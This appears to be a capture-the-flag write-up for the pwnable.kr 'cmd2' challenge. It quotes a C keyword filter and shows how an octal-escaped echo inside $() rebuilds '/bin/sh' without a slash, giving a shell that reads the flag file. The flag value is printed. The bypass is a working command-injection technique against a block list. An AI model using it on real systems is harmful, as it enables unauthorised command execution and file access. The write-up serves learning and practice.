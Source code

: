 # Description
Daddy bought me a system command shell.
but he put some filters to prevent me from playing with it without his permission...
but I wanna play anytime I want!

ssh cmd2@pwnable.kr -p2222 (pw:flag of cmd1)

# Exploitation
```c
int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "=")!=0;
	r += strstr(cmd, "PATH")!=0;
	r += strstr(cmd, "export")!=0;
	r += strstr(cmd, "/")!=0;
	r += strstr(cmd, "`")!=0;
	r += strstr(cmd, "flag")!=0;
	return r;
}
```
To bypass this filter code, I used echo function.

```
cmd2@ubuntu:~$ ./cmd2 '$(echo "\57")bin$(echo "\57")sh'
$(echo "\57")bin$(echo "\57")sh
$ /bin/cat ./flag
FuN_w1th_5h3ll_v4riabl3s_haha
$ 
```
